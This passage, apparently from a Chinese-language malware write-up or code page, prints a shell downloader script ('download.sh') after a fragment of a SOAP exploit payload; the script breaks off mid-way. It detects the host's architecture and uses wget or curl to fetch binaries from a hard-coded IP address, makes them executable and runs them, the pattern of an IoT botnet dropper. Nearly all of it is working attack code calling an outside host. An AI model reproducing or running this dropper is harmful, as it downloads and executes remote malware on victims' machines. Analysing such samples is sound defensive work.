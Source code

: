 ```
</s:Envelope>
[@OVER]
```

下载器download.sh：

```shell
#!/bin/sh
os=`uname -s`
arch=`uname -m`
if [ $os = "Linux" ]; then
       case $arch in
       "i"*"86")
       wget -t 1 http://209.141.46.211/m/linux_386||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_386;chmod 777 linux_386;./linux_386||rm -f linux_386
       ;;
       "x86_64")
       wget -t 1 http://209.141.46.211/m/linux_amd64||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_amd64;chmod 777 linux_amd64;./linux_amd64||rm -f linux_amd64
       ;;
       "amd64")
       wget -t 1 http://209.141.46.211/m/linux_amd64||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_amd64;chmod 777 linux_amd64;./linux_amd64||rm -f linux_amd64
       ;;
       "mips")
       wget -t 1 http://209.141.46.211/m/linux_mips||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mips;chmod 777 linux_mips;./linux_mips||rm -f linux_mips
       wget -t 1 http://209.141.46.211/m/linux_mipsel||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mipsel;chmod 777 linux_mipsel;./linux_mipsel||rm -f linux_mipsel
       wget -t 1 http://209.141.46.211/m/linux_mips_softfloat||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mips_softfloat;chmod 777 linux_mips_softfloat;./linux_mips_softfloat||rm -f linux_mips_softfloat
       wget -t 1 http://209.141.46.211/m/linux_mipsel_softfloat||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mipsel_softfloat;chmod 777 linux_mipsel_softfloat;./linux_mipsel_softfloat||rm -f linux_mipsel_softfloat
       ;;
       "mips64")
       wget -t 1 http://209.141.46.211/m/linux_mips64||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mips64;chmod 777 linux_mips64;./linux_mips64||rm -f linux_mips64
       wget -t 1 http://209.141.46.211/m/linux_mips64el||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mips64el;chmod 777 linux_mips64el;./linux_mips64el||rm -f linux_mips64el
       wget -t 1 http://209.141.46.211/m/linux_mips64_softfloat||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mips64_softfloat;chmod 777 linux_mips64_softfloat;./linux_mips64_softfloat||rm -f linux_mips64_softfloat
       wget -t 1 http://209.141.46.211/m/linux_mips64el_softfloat||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_mips64el_softfloat;chmod 777 linux_mips64el_softfloat;./linux_mips64el_softfloat||rm -f linux_mips64el_softfloat
       ;;
       "armv5"*)
        wget -t 1 http://209.141.46.211/m/linux_arm5||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_arm5;chmod 777 linux_arm5;./linux_arm5||rm -f linux_arm5
        ;;
       "armv6"*)
        wget -t 1 http://209.141.46.211/m/linux_arm6||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_arm6;chmod 777 linux_arm6;./linux_arm6||rm -f linux_arm6
        ;;
       "armv7"*)
        wget -t 1 http://209.141.46.211/m/linux_arm7||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_arm7;chmod 777 linux_arm7;./linux_arm7||rm -f linux_arm7
        ;;
       "armv8"*)
        wget -t 1 http://209.141.46.211/m/linux_arm64||curl -O --connect-timeout 10 http://209.141.46.211/m/linux_arm64;chmod 777 linux_arm64;./linux_arm64||rm -f linux_arm64
       ;;
```